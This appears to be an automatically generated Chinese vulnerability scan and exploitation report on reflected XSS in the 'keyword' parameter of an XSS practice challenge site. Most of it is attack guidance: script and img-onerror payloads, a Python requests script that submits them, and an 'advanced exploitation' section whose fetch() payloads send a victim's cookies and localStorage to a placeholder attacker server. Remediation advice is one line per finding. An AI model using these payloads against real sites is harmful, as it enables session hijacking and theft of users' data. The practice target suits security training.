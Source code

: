 # 漏洞扫描和利用报告

## 发现的漏洞
### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: high
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: high
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```
